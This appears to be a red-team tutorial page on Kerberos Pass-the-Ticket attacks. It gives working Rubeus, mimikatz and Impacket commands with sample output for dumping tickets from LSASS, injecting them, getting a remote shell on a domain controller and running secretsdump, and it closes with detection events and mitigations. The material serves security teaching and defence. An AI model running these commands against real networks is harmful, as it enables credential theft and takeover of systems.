

## What Is Pass-the-Ticket?

Pass-the-Ticket (PtT) is the simplest ticket-based attack. Instead of forging a ticket from scratch, you take a legitimate ticket that was already issued by the KDC, extract it from memory, and inject it into your own session. The ticket was real when it was issued and remains valid until it expires. No password cracking, no key material needed.

The attack works against both TGTs and Service Tickets. Stealing a TGT is more powerful because you can use it to request new service tickets for any service. Stealing a [Service Ticket](/docs/kerberos/tickets/) is more limited but requires less access since you only need to read the specific ticket rather than the full [LSASS](/docs/redteam/credential-dumping/) process.

## How Does Pass-the-Ticket Work?

On Windows, Kerberos tickets live in LSASS memory, managed by the Kerberos SSP (Security Support Provider — a Windows component that sits between applications and the authentication system, handling ticket requests and caching behind the scenes). Each logon session has its own ticket cache identified by a LogonId. Injecting a ticket into your session tells the Kerberos SSP to use it for outgoing authentication requests as if your session had legitimately obtained it.

On Linux, tickets live in a credential cache file, typically at `/tmp/krb5cc_<uid>`. The `KRB5CCNAME` environment variable tells the Kerberos libraries which cache file to read. Pointing it at a cache file containing a stolen ticket is enough for Impacket and other tools to authenticate using it.



## What Does Pass-the-Ticket Require?

- A ticket file in `.kirbi` format (Windows) or `.ccache` format (Linux), extracted from another session or machine. `.kirbi` is the binary file format Windows tools like Rubeus and mimikatz use to export tickets to disk. `.ccache` is the credential cache file format Linux Kerberos libraries use to store tickets. The two formats represent the same ticket data and can be converted between each other with Impacket.
- On Windows: sufficient privileges to read LSASS memory. `SeDebugPrivilege` is required for cross-session ticket dumping. This is a Windows privilege that allows a process to read the memory of other processes, including LSASS. Without it, dumping tickets from another user's session fails with access denied. Tickets from your own session can be exported without elevation.
- On Linux: access to another user's ccache file, or a kirbi converted from a Windows dump.

## Obtaining Tickets

Before injecting, you need a ticket to work with. On Windows this means reading from LSASS memory. On Linux it means converting a ticket from Windows or requesting one directly from the KDC.


  
On Linux you do not dump tickets from memory the same way Windows does. Instead you obtain them through one of three routes: converting a kirbi file transferred from a compromised Windows machine, requesting a fresh TGT using a hash or password you already have, or through coercion techniques (forcing a remote machine to authenticate to you so you can capture its ticket). The most common starting point is converting a kirbi from a Windows dump. If you have code execution on a Windows machine, export the ticket there and transfer the kirbi file, then convert it with Impacket.

```bash
ticketConverter.py stolen.kirbi stolen.ccache
```

To list tickets inside a ccache file before using it:

```bash
klist -c stolen.ccache
```

```
Ticket cache: FILE:stolen.ccache
Default principal: jdoe@RADIANT.LOCAL

Valid starting       Expires              Service principal
03/11/2026 09:00:00  03/11/2026 19:00:00  krbtgt/RADIANT.LOCAL@RADIANT.LOCAL
        renew until 03/18/2026 09:00:00
```

If you already have a password or NT hash for an account, you can request a fresh TGT directly from the KDC without needing to dump anything from memory. Impacket's `-hashes` flag expects the format `LMhash:NThash`. If you only have the NT hash (which is almost always the case), leave the LM portion empty and just put the colon first: `:NThashhere`.

```bash
getTGT.py radiant.local/jdoe -hashes :NThashhere
```

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Saving ticket in jdoe.ccache
```
  
  
**Rubeus** dumps all tickets from all sessions in base64 format. Run from an elevated prompt to access other users' sessions.

```powershell
.\Rubeus.exe dump /nowrap
```

``` {linenos=table}
[*] Action: Dump Kerberos Ticket Data (All Users)

[*] Target LSASS via default dump

  UserName                 : jdoe
  Domain                   : RADIANT
  LogonId                  : 0x4f2a1

    [*] Ticket[0]
    ServiceName              : krbtgt/RADIANT.LOCAL
    EncryptionType           : aes256_cts_hmac_sha1
    Flags                    : forwardable, renewable, initial, pre_authent
    Base64EncodedTicket      : doIFpDCCBaCgAwIBBaED...
```

The `LogonId` in the output is a hex identifier for a specific login session on the local machine. Each user session gets its own LogonId. You can use it to target a specific session when multiple users are logged in at the same time.

To dump tickets from a specific user session by LogonId:

```powershell
.\Rubeus.exe dump /luid:0x4f2a1 /nowrap
```

**mimikatz** exports tickets as `.kirbi` files to disk:

```powershell
privilege::debug
sekurlsa::tickets /export
```

```
Authentication Id : 0 ; 324257 (00000000:0004f2a1)
Session           : Interactive from 1
User Name         : jdoe
Domain            : RADIANT
Logon Server      : DC01

         * Saved to file     : [0;4f2a1]-0-0-40e10000-jdoe@krbtgt-RADIANT.LOCAL.kirbi
```
  


## Injecting the Ticket

Once you have the ticket, inject it into your session to use it for authentication.


  
Set the `KRB5CCNAME` environment variable to point at the ccache file. All Kerberos-aware tools in the same shell session will use it automatically.

```bash
export KRB5CCNAME=/tmp/stolen.ccache
```

Verify it is loaded:

```bash
klist
```

```
Ticket cache: FILE:/tmp/stolen.ccache
Default principal: jdoe@RADIANT.LOCAL

Valid starting       Expires              Service principal
03/11/2026 09:00:00  03/11/2026 19:00:00  krbtgt/RADIANT.LOCAL@RADIANT.LOCAL
        renew until 03/18/2026 09:00:00
```

Now use Impacket tools with `-k -no-pass` to authenticate with the ticket instead of a password:

```bash
psexec.py radiant.local/jdoe@dc01.radiant.local -k -no-pass
```

``` {linenos=table}
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Requesting shares on dc01.radiant.local.....
[*] Found writable share ADMIN$
[*] Uploading file xKcbPqRm.exe
[*] Opening SVCManager on dc01.radiant.local.....
[*] Creating service RoaX on dc01.radiant.local.....
[*] Starting service RoaX.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2340]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Other Impacket tools that accept `-k -no-pass`:

```bash
smbclient.py radiant.local/jdoe@fileserver.radiant.local -k -no-pass
wmiexec.py radiant.local/jdoe@target.radiant.local -k -no-pass
secretsdump.py radiant.local/jdoe@dc01.radiant.local -k -no-pass
```
  
  
**Rubeus** injects a ticket directly into the current session from a base64 blob or a `.kirbi` file:

```powershell
.\Rubeus.exe ptt /ticket:doIFpDCCBaCgAwIBBaED...
```

```
[*] Action: Import Ticket
[+] Ticket successfully imported!
```

Or from a `.kirbi` file on disk:

```powershell
.\Rubeus.exe ptt /ticket:C:\Temp\jdoe.kirbi
```

**mimikatz** can inject from a `.kirbi` file:

```powershell
kerberos::ptt C:\Temp\[0;4f2a1]-0-0-40e10000-jdoe@krbtgt-RADIANT.LOCAL.kirbi
```

```
* File: 'C:\Temp\[0;4f2a1]-0-0-40e10000-jdoe@krbtgt-RADIANT.LOCAL.kirbi': OK
```

To inject into a specific process or logon session rather than the current one, use Rubeus with the `/luid` flag:

```powershell
.\Rubeus.exe ptt /ticket:doIFpD... /luid:0x6b3f1
```
  


## Verification

Confirm the ticket is active in your session and test access to a resource.


  
```bash
klist
```

```
Ticket cache: FILE:/tmp/stolen.ccache
Default principal: jdoe@RADIANT.LOCAL

Valid starting       Expires              Service principal
03/11/2026 09:00:00  03/11/2026 19:00:00  krbtgt/RADIANT.LOCAL@RADIANT.LOCAL
        renew until 03/18/2026 09:00:00
03/11/2026 10:30:00  03/11/2026 19:00:00  cifs/fileserver.radiant.local@RADIANT.LOCAL
```

Test access to a share:

```bash
smbclient.py radiant.local/jdoe@fileserver.radiant.local -k -no-pass
```

```
Impacket v0.12.0 - Copyright Fortra, LLC

Type help for list of commands
# shares
ADMIN$
C$
IPC$
Data
```
  
  
```powershell
klist
```

``` {linenos=table}
Current LogonId is 0:0x7a3b2

Cached Tickets: (1)

#0>     Client: jdoe @ RADIANT.LOCAL
        Server: krbtgt/RADIANT.LOCAL @ RADIANT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent
        Start Time: 3/11/2026 09:00:00 (local)
        End Time:   3/11/2026 19:00:00 (local)
        Renew Time: 3/18/2026 09:00:00 (local)
```

Test access to a share:

```powershell
dir \\fileserver.radiant.local\Data
```

```
 Volume in drive \\fileserver.radiant.local\Data has no label.
 Volume Serial Number is 4A2B-1C3D

 Directory of \\fileserver.radiant.local\Data

11/03/2026  09:15    <DIR>          .
11/03/2026  09:15    <DIR>          ..
11/03/2026  08:00             4,096 report.xlsx
```
  


## Operational Notes

A stolen TGT is only valid until its `endtime`, typically 10 hours from when it was issued. Check the expiry with `klist` before relying on it. If the ticket has expired, injection will succeed but authentication attempts will fail with `KRB_AP_ERR_TKT_EXPIRED`.

If you inject a TGT, the KDC will issue new service tickets on demand as you access resources. If you inject only a Service Ticket, you can only access the specific service it was issued for and cannot request new ones without a TGT.

On Windows, injected tickets coexist with your existing tickets in the same session cache. They do not replace your own identity for local operations. Only Kerberos-authenticated network connections will use the injected ticket.

## How Do You Detect and Defend Against Pass-the-Ticket?

### What Logs Does Pass-the-Ticket Generate?

- **Event ID 4769** at the DC — if you injected a TGT and used it to request service tickets, each TGS-REQ fires a 4769. The source IP in that event will be your machine, which may not match where the account normally authenticates from.
- **Event ID 4768** at the DC — if you used a stolen TGT to request a fresh TGT (renewal), source IP mismatch is visible.
- **Event ID 4624 / 4672** at the target service host — network logon (Type 3) events for the impersonated account, showing Kerberos as the authentication package.
- **[Sysmon](/docs/blueteam/lolbins-hunting/) Event ID 10** (LSASS process access) on the machine where tickets were dumped — Rubeus and mimikatz both read LSASS memory, which Sysmon records.

### What Logs Does Pass-the-Ticket Not Generate?

- **Injecting a ticket into your own session** — no new logon event fires. The ticket is already in your cache.
- **Using a Service Ticket directly** — if you inject a Service Ticket (not a TGT), no 4769 fires at the DC. The ticket was already issued; the KDC is never consulted again during use.
- **KRB5CCNAME swap on Linux** — setting an environment variable and running Impacket tools produces no Windows events whatsoever until authentication reaches the target service.
- **Converting .kirbi to .ccache** — purely local, no network traffic, no logs anywhere.

The most reliable behavioral signal is a 4769 whose source IP does not match the workstation the account is expected to authenticate from.

### How Do You Mitigate Pass-the-Ticket?

- **Credential Guard** (Windows 10 / Server 2016+) — isolates LSASS in a virtualized environment, blocking tools like Rubeus and mimikatz from reading ticket data. This prevents the dump step entirely.
- **Short ticket lifetimes** — reducing the TGT lifetime (domain default: 10 hours) shrinks the window during which a stolen ticket is usable. Doesn't prevent the attack but limits exposure.
- **Least privilege for logon** — high-value accounts (Domain Admins, service accounts) should not have interactive sessions on shared workstations. The fewer machines a ticket can be extracted from, the smaller the attack surface.
- **Client address validation** — some environments can enforce that a ticket is only usable from the IP it was originally issued to. Not a universal control but effective where it can be applied.

### Detection Tools

- **Microsoft Defender for Identity (MDI)** — has a built-in Pass-the-Ticket alert. It correlates where a TGT was issued against where it is being used, and fires when the IP or hostname doesn't match.
- **Windows Event Forwarding → SIEM** — forward DC Security logs to Splunk or Microsoft Sentinel. Write a correlation rule: Event ID 4769 where the `IpAddress` field doesn't match the registered workstation for that account in your directory.
- **Sysmon** — deploy with a rule targeting Event ID 10 (LSASS access). Any process that opens LSASS with read access is suspicious and should be alerted on. This catches the dump phase before the ticket is ever used.
- **[EDR](/docs/redteam/defender-bypass/) (CrowdStrike, Microsoft Defender for Endpoint)** — behavioral detection on `sekurlsa::*` and Rubeus process signatures. Most modern EDR catches these at execution, independent of the Kerberos layer.

## References

### Original Research
- Benjamin Delpy (gentilkiwi) — Pass-the-Ticket implementation in mimikatz; `sekurlsa::tickets` and `kerberos::ptt` commands
- Will Schroeder (harmj0y) — Rubeus pass-the-ticket documentation and `ptt` / `dump` action design

### Tools
- [Impacket](https://github.com/fortra/impacket) — Python library and scripts for network protocols, including `ticketConverter.py`, `getTGT.py`, and `-k -no-pass` Kerberos auth across all tools
- [Rubeus](https://github.com/GhostPack/Rubeus) — C# Kerberos toolkit (`dump`, `ptt`)
- [mimikatz](https://github.com/gentilkiwi/mimikatz) — Windows credential tool (`sekurlsa::tickets`, `kerberos::ptt`)

### Specifications
- [RFC 4120 — The Kerberos Network Authentication Service (V5)](https://www.rfc-editor.org/rfc/rfc4120)
- [MS-KILE — Kerberos Protocol Extensions](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/)
